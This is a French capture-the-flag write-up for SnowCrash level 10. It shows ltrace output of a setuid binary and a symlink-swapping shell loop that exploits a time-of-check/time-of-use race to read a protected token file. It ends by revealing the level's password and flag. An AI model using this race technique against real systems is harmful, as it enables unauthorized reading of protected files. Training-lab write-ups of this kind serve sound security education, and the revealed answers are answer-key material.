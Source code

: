 # LEVEL 10

- On check ce qu'il y a: `ls -la`
```
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

- `ltrace ./level10` : \
```
__libc_start_main(0x80486d4, 1, 0xbffff6e4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
	sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Meme soucis que l'exo precedent, can't ltrace

- `./level10 token` :
```
./level10 file host
	sends file to host if you have access to it
```
- On essaye de lancer la commande avec le usage indique:
- `ltrace ./level10 /var/crash/test 0.0.0.0`
```
__libc_start_main(0x80486d4, 3, 0xbffff6d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/var/crash/test", 4)                              = 0
printf("Connecting to %s:6969 .. ", "0.0.0.0")            = 30
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )                                        = 0
socket(2, 1, 0)                                           = 3
inet_addr("0.0.0.0")                                      = NULL
htons(6969, 1, 0, 0, 0)                                   = 14619
connect(3, 0xbffff61c, 16, 0, 0)                          = 0
write(3, ".*( )*.\n", 8)                                  = 8
printf("Connected!\nSending file .. "Connected!
)                    = 27
fflush(0xb7fd1a20Sending file .. )                                        = 0
open("/var/crash/test", 0, 010)                           = 4
read(4, "yooooo\n", 4096)                                 = 7
write(3, "yooooo\n", 7)                                   = 7
puts("wrote file!"wrote file!
)                                       = 12
+++ exited (status 12) +++
```
On voit qu'au tout debut, le programme check les acces au fichier qu'on lui donne, si c'est ok, il fait pleins de trucs, puis il imprime le contenu du fichier.
On se dit que si entre le moment ou il check les permission et le moment ou il print le contenu, ya moyen de bidouiller quelque chose: \
On voudrait qu'il check les permissions d'un fichier auquel on a acces, mais qu'il affiche le contenu du token surlequel nous n'avons pas les droits... \
On va exploiter cette `race condition` avec deux boucles while:

```bash
while ((1))
> do
    > touch /var/crash/tmp
    > rm /var/crash/tmp
    > ln -s /home/user/level10/token /var/crash/tmp
    > rm /var/crash/tmp
> done
```

```bash
while ((1))
do ./level10 /var/crash/tmp 0.0.0.0
done
```

- WE GET `woupa2yuojeeaaed06riuj63c`
```bash
level10@SnowCrash:~$ su flag10
Password:
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## 🔥 Password
`woupa2yuojeeaaed06riuj63c`